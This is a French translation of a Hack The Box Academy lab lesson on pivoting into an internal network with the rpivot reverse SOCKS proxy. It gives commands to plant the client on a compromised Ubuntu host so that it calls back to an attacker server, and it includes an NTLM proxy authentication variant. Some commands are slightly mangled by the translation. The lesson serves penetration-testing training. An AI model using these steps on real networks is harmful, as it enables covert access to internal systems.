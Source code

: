 Pivotement de serveur Web avec Rpivot
===============================

* * * * *

[Rpivot](https://github.com/klsecservices/rpivot) est un outil de proxy inverse SOCKS écrit en Python pour le tunneling SOCKS. Rpivot lie une machine à l'intérieur d'un réseau d'entreprise à un serveur externe et expose le port local du client côté serveur. Nous prendrons le scénario ci-dessous, où nous avons un serveur Web sur notre réseau interne (`172.16.5.135`), et nous voulons y accéder en utilisant le proxy rpivot.

![](https://academy.hackthebox.com/storage/modules/158/77.png)

Nous pouvons démarrer notre serveur proxy rpivot SOCKS en utilisant la commande ci-dessous pour permettre au client de se connecter sur le port 9999 et d'écouter sur le port 9050 les connexions pivot proxy.

#### Clonage du pivot

Clonage du pivot

```
dsgsec@htb[/htb]$ sudo git clone https://github.com/klsecservices/rpivot.git

```

#### Installation de Python2.7

Installation de Python2.7

```
dsgsec@htb[/htb]$ sudo apt-get install python2.7

```

Nous pouvons démarrer notre serveur proxy rpivot SOCKS pour nous connecter à notre client sur le serveur Ubuntu compromis en utilisant `server.py`.

#### Exécution de server.py à partir de l'hôte d'attaque

Exécution de server.py à partir de l'hôte d'attaque

```
dsgsec@htb[/htb]$ python2.7 serveur.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

```

Avant d'exécuter `client.py` nous devrons transférer rpivot vers la cible. Nous pouvons le faire en utilisant cette commande SCP :

#### Transfert de rpivot vers la cible

Transfert de rpivot vers la cible

```
dsgsec@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/

```

#### Exécution de client.py à partir de la cible pivot

Exécution de client.py à partir de la cible pivot

```
ubuntu@WEB01 :~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Reconnexion au serveur 10.10.14.18 port 9999

```

#### Confirmation que la connexion est établie

Confirmation que la connexion est établie

```
Nouvelle connexion depuis l'hôte 10.129.202.64, port source 35226

```

Nous allons configurer les proxychains pour pivoter sur notre serveur local sur 127.0.0.1:9050 sur notre hôte d'attaque, qui a été initialement lancé par le serveur Python.

Enfin, nous devrions pouvoir accéder au serveur Web côté serveur, qui est hébergé sur le réseau interne de 172.16.5.0/23 à 172.16.5.135:80 en utilisant proxychains et Firefox.

#### Navigation vers le serveur Web cible à l'aide de Proxychains

Navigation vers le serveur Web cible à l'aide de Proxychains

```
proxychains firefox-esr 172.16.5.135:80

```

![(https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

Semblable au proxy pivot ci-dessus, il peut y avoir des scénarios dans lesquels nous ne pouvons pas pivoter directement vers un serveur externe (hôte d'attaque) sur le cloud. Certaines organisations ont [proxy HTTP avec authentification NTLM](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configuré avec le contrôleur de domaine. Dans de tels cas, nous pouvons fournir une option d'authentification NTLM supplémentaire pour rpivot pour s'authentifier via le proxy NTLM en fournissant un nom d'utilisateur et un mot de passe. Dans ces cas, nous pourrions utiliser client.py de rpivot de la manière suivante :

#### Connexion à un serveur Web à l'aide du proxy HTTP et de l'authentification NTLM

Connexion à un serveur Web à l'aide du proxy HTTP et de l'authentification NTLM

```
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> -- mot de passe <mot de passe>

```